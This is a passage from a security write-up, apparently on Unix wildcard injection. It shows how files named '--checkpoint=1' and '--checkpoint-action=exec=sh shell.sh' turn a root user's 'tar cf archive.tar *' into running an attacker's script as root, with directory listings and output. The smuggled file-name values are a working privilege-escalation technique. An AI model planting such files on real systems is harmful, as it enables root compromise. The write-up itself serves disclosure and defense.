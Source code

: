 There is '--checkpoint-action' option, that will specify program which will
be executed when checkpoint is reached. Basically, that allows us arbitrary
command execution.

Check the following directory:
```
[root@defensecode public]# ls -al
total 72
drwxrwxrwx.  2 user user  4096 Oct 28 19:34 .
drwx------. 24 user user  4096 Oct 28 18:32 ..
-rw-rw-r--.  1 user user 20480 Oct 28 19:13 admin.php
-rw-rw-r--.  1 user user    34 Oct 28 17:47 ado.php
-rw-r--r--.  1 leon leon     0 Oct 28 19:19 --checkpoint=1
-rw-r--r--.  1 leon leon     0 Oct 28 19:17 --checkpoint-action=exec=sh shell.sh
-rw-rw-r--.  1 user user   187 Oct 28 17:44 db.php
-rw-rw-r--.  1 user user   201 Oct 28 17:43 download.php
-rw-rw-r--.  1 user user    43 Oct 28 17:35 file1.php
-rw-rw-r--.  1 user user    56 Oct 28 17:47 footer.php
-rw-rw-r--.  1 user user   357 Oct 28 17:36 global.php
-rw-rw-r--.  1 user user   225 Oct 28 17:37 header.php
-rw-rw-r--.  1 user user   117 Oct 28 17:36 inc.php
-rw-rw-r--.  1 user user   111 Oct 28 17:38 index.php
-rw-rw-r--.  1 user user    94 Oct 28 17:38 script.php
-rwxr-xr-x.  1 leon leon    12 Oct 28 19:17 shell.sh
```
Now, for example, root user wants to create archive of all files in current
directory.
```
[root@defensecode public]# tar cf archive.tar *

uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```
Boom! What happened? /usr/bin/id command gets executed! We've just achieved arbitrary command
execution under root privileges.
Once again, there are few files created by user 'leon'.
```
-rw-r--r--.  1 leon leon     0 Oct 28 19:19 --checkpoint=1
-rw-r--r--.  1 leon leon     0 Oct 28 19:17 --checkpoint-action=exec=sh shell.sh
-rwxr-xr-x.  1 leon leon    12 Oct 28 19:17 shell.sh
```
Options '--checkpoint=1' and '--checkpoint-action=exec=sh shell.sh' are passed to the
'tar' program as command line options. Basically, they command tar to execute shell.sh
shell script upon the execution.
```
[root@defensecode public]# cat shell.sh
/usr/bin/id
```
So, with this tar argument pollution, we can basically execute arbitrary commands
with privileges of the user that runs tar. As demonstrated on the 'root' account above.
